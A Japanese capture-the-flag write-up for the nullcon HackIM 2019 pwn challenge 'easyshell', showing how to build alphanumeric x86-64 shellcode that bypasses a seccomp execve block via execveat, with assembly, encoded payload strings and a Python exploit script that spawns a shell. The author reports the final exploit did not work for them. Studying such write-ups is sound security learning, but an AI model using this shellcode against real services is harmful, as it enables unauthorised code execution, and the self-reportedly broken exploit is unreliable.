 # [pwn 451pts] easyshell - nullcon HackIM 2019
64ビットでPIEやSSPなども有効になっています。
```
$ checksec gg
[*] 'gg'
    Arch:       64 bits (little endian)
    NX:         NX enabled
    SSP:        SSP enabled (Canary found)
    RELRO:      Full RELRO
    PIE:        PIE enabled
```
IDAで見ると、最初にmmapで実行可能領域を確保して、そこへreadで入力した後その領域がcallされます。
なのですが、readした後に入力データを1バイトずつチェックしているようです。
`__ctype_b_loc`関数なるものを使っているのですが、調べるとunsigned shortの配列を返すようです。
この配列は文字コードから文字の種別を判定できる便利な配列で、例えば
```c
__ctype_b_loc()[sizeof(unsigned short) * c]
```
のようにして文字の種類を知ることができます。
種類は次のように定義されています。
```c
enum
{
  _ISupper = _ISbit (0),        /* UPPERCASE.  */
  _ISlower = _ISbit (1),        /* lowercase.  */
  _ISalpha = _ISbit (2),        /* Alphabetic.  */
  _ISdigit = _ISbit (3),        /* Numeric.  */
  _ISxdigit = _ISbit (4),       /* Hexadecimal numeric.  */
  _ISspace = _ISbit (5),        /* Whitespace.  */
  _ISprint = _ISbit (6),        /* Printing.  */
  _ISgraph = _ISbit (7),        /* Graphical.  */
  _ISblank = _ISbit (8),        /* Blank (usually SPC and TAB).  */
  _IScntrl = _ISbit (9),        /* Control character.  */
  _ISpunct = _ISbit (10),       /* Punctuation.  */
  _ISalnum = _ISbit (11)        /* Alphanumeric.  */
};
```
今回のバイナリは各文字が0x0C00と一致するか比較しています。
`_ISbit`はビットシフトしたものなので、0x0C=0b1100より`_ISbit(2) | _ISbit(3)`となり、英数字であればOKです。
したがって、英数字のみでシェルコードを作る問題ということになります。
ただし、何回も入力できるのでシェルコードを複数に分けても良さそうです。

[こちら](https://hama.hatenadiary.jp/entry/2017/04/04/190129)を参考にして
```
ATYh00AAX1A0hA004X1A4hA00AX1A8QX44Pj0X40PZPjAX4znoNDnRYZnCXA
```
というシェルコードを作ったのですが動きませんでした。
おかしいと思ってよく処理を見ると`sys_execve`がseccompで弾かれていました。
悲しいかな。

ということで`stub_execveat`を使った英数字シェルコードを書きましょう。

## 1. rax
`stub_execveat`のシステムコール番号は0x142です。
初期状態でrax=0なので、次のようにして作ります。
```nasm
xor ax, 0x3070
xor ax, 0x3132
```
これで`f5p0f521`です。

## 2. rdi
`stub_execveat`においてrdiはdirfdという特別な役割を果たしますが、pathnameが絶対パスの場合無視されるので適当な値で問題無いでしょう。

## 3. rdx, r10, r8
rdxはargv, r10はenvp, r8はflagsなのでいずれも0にしましょう。
raxを変更する前に次のようにします。
```nasm
push rax
push rax
push rax
pop rdx
pop r10
pop r8
```
これで`PPPZAZAX`です。

## 4. rsi
rsiは`/bin/sh`を指している必要があります。
これは最初のシェルコードと同様にrcxを使ってxorしましょう。
```
0x30 ^ 0x6e == 0x5e ; pop rsi
0x41 ^ 0x4e == 0x0f ; syscall
0x41 ^ 0x44 == 0x05
0x41 ^ 0x41 == 0x00 ; (bad)
nRYZnCXA ^ A004A00A == /bin/sh\x00
```
こんな感じでxorします。
```nasm
push 0x34303041
pop rax
xor DWORD PTR [rcx+0x34], eax
```
この場合`hA004X1A4`となります。
`pop rsi`するのであらかじめ`/bin/sh`のポインタをpushする必要があります。
```nasm
push rcx
pop rax
xor al, 0x??
push rax
```
これで`PQX4?PYXQ`になります。
mmapで確保したアドレスは0x1000でアラインされるのでclは0x00です。
ただし、最初にrcxにr12を代入するのを忘れないように。
```nasm
push r12
pop rcx
```
これは`ATY`です。
あとは破壊したraxを0x00に戻してから1でシステムコール番号を用意します。
```nasm
push rdx ; R
pop rax  ; X
```

ということでシェルコードを作ったのですが私の環境では動きませんでした。
execveatって動かないの？
```python
from ptrlib import *

sock = Socket("127.0.0.1", 4010)
_ = input()

shellcode = ""
# padding
shellcode += "PXPXPXPXPXPX"
# set rdx, r10, r8 = 0
shellcode += "PPPZAZAX"
# set rcx = r12
shellcode += "ATY"
# xor [rcx+0x41], 0x41414130
shellcode += "h0AAAX1AA"
# xor [rcx+0x45], 0x34303041
shellcode += "hA004X1AE"
# xor [rcx+0x49], 0x41303041
shellcode += "hA00AX1AI"
# push rcx = &'/bin/sh'
shellcode += "QX4EP"
# set rax = 0x142
shellcode += "RXf5p0f521"
# pop rsi; syscall; (bad)
shellcode += "nNDA"
# /bin/sh\x00
shellcode += "nRYZnCXA"
print(shellcode)
sock.send(shellcode)
sock.interactive()
```

公式writeupによるとflagというファイルを出力するそうです。
flagっていうファイル名を問題文で提供していないのはどうかと......

# 感想
alphanumericなshellcodeを勉強したい方は是非挑戦してください。
